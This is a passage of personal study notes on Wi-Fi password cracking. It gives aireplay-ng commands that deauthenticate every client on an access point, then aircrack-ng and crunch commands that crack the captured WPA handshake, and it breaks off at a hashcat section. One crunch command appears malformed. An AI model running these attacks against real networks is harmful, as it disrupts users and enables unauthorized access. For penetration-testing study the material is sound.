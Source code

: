 - Do this to try to force new handshake - will see hash in upper right of airodum-np terminal. it will be captured in .cap file

```bash
aireplay-ng --deauth -0 0 -a AP_MAC  wlan0
```

- This will deauthenticate ALL clients)

---

5.  [TERMINAL 3] RUN aircrack-ng WITH WORDLIST AND CAPTURED HASH FILE

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AP_MAC CAPTURE_FILE.cap
```

**Example...**

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b B0:BE:76:E0:3D:AB rootdownPSK-01.cap
```

YOU CAN ALSO DO WITH PASSWORD GENERATOR CRUNCH (instead of a dictionary)

```bash
crunch -t aircrack-ng -w - CAPFILE.cap -e ESSID
```

- This will load CPU and make it HOT

</br>

## `crunch`

1.  password generator

- can generate password lists
- can state length
- can insert fractions of passwords

2. Downloaded crunch from surgeforce.net

- then unzip, cd to folder, saw MakeFile so ran “make” then “make install”

3. TIP...

- password lists generated can become huge. Instead of saving the list then sending to aircrack-ng, can pipe to aircrack-ng to use on the fly

```bash
crunch 3 10 abcdefghijklmnopqrstuvwxyz1234567890 | aircrack-ng -w -
```

</br>

## `hashcat`

1.  Create a textfile with hashes to crack

- Can use MD5 hash generator to make some hashes to put in file
  - Or do in cli with...
